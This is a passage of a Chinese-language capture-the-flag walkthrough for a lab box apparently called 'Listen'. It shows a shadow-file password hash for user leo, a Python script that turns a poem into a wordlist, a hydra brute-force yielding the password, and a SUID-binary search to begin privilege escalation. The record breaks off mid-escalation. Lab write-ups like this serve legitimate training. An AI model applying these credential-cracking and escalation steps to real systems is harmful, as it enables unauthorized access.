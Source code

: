 ```TypeScript
用户 Leo Buscaglia
hash leo:$6$GyxLtjMYaQWxRxfl$w0mjIXfmU1T8bac2HgweZmxgFjGSiX8kbPDWhJzAzFn.BFk9X9fPT6DHXlp.A3J5yA64qQJH6Iu4K4AW4THIw.:18551:0:99999:7:::
```
爆破一下hash

再扫描端口可以发现端口已经开放了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.001.png)

开发了就扫一波目录

啥都没有

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.002.png)

rockyou没有爆出来。

解密提示爆破获取密码

Curl返回的内容告诉我们

Leo please, stop using your poems as password!

说明他的密码多半就藏在诗句当中

我们将诗句生成一个字典

```TypeScript
text = """
poem
"""
import string
translator = str.maketrans('', '', string.punctuation)
words = text.translate(translator).lower().split()

# 使用集合去重并排序
unique\_words = sorted(set(words))

# 将结果写入 txt 文件
with open("pass\_dic.txt", "w") as file:
    for word in unique\_words:
        file.write(word + "\n")
```
利用hydra爆破

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/14.Listen.003.png)

获取到密码 contribute

## 3. 提权

```TypeScript
leo@listen:~$ find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/home/leo/poem

leo@listen:~$ ./poem 
```